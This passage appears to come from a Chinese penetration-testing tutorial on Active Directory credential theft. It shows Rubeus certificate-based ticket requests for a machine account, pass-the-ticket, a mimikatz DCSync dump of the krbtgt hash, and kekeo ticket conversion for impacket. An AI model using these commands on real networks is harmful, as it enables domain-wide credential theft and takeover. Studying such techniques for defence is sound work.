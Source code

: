 ![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

Rubeus.exe asktgt /user:AD02$ /certificate:打印出来的base64的证书数据 /ptt

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182626.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182628.png)

  

然后使用mimikatz即可导出域内任意用户哈希

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

mimikatz.exe

#查看kerberos票据

kerberos::list

#导出krbtgt用户的hash

lsadump::dcsync /user:krbtgt /csv

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182631.png)

  

或者可以手动导入证书

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

kerberos::ptt ticket.kirbi

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182637.png)

  

也可以使用kekeo将.kirbi后缀的证书转换为 .ccache后缀的证书，然后使用impacket工具进行利用。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  

misc::convert ccache ticket.kirbi

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182639.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823182611.png)  
